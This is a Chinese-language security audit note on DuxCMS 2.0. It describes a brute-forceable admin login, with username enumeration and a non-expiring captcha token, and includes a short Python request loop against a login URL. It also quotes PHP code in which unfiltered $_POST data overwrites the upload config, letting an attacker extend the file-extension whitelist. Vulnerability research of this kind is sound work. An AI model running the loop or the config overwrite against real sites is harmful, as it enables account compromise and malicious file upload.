

# DuxCMS 2.0审计

## 后台登录页存在用户名密码爆破

用户名不存在会爆不存在，验证码与token绑定不过期

```
import requests
import time
url = 'http://y4y4.top/s/system/Login/index'

data = {
'username': 'adminzzz',
'password': 'zzzaddsadsadsaasd',
'val_code': '8g3d',
'val_token': '09d9218436e9f08a4fc683171df11e20',
'val_time': '1618813312'
}

while 1:
    r = requests.post(url, data=data)

    print(r.text)
    time.sleep(1)
```

## 后台页面存在文件上传漏洞

在`app/system/admin/ConfigAdmin.php`中

我们可以看见

```php
public function upload() {
    $file = 'data/config/use/upload';
    if (!isPost()) {
        $config = load_config($file);
        $this->assign('info', $config['dux.use_upload']);
        $this->assign('driverList', \dux\Config::get('dux.upload_driver'));
        $this->assign('imageList', \dux\Config::get('dux.image_driver'));
        $this->assign('hookMenu', $this->menu());
        $this->systemDisplay();
    } else {
        if (save_config($file, ['dux.use_upload' => $_POST])) {
            $this->success('上传配置成功！');
        } else {
            $this->error('上传配置失败');
        }
    }
}
```

在`save_config($file, ['dux.use_upload' => $_POST])`发现通过传参可以覆盖`data/config/use/upload.php`下的配置文件，从而实现文件后缀白名单的添加



